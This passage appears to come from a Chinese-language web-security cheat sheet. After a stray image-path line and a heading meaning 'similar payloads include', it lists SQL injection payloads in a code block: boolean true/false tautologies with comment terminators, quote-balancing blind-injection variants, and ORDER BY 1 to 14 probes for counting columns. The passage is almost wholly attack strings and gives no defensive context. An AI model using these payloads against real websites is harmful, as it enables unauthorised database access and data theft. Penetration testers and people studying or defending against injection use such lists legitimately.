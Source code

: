 **类似的Payload有：**
```
 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 13-- 
 ORDER BY 14-- 
```
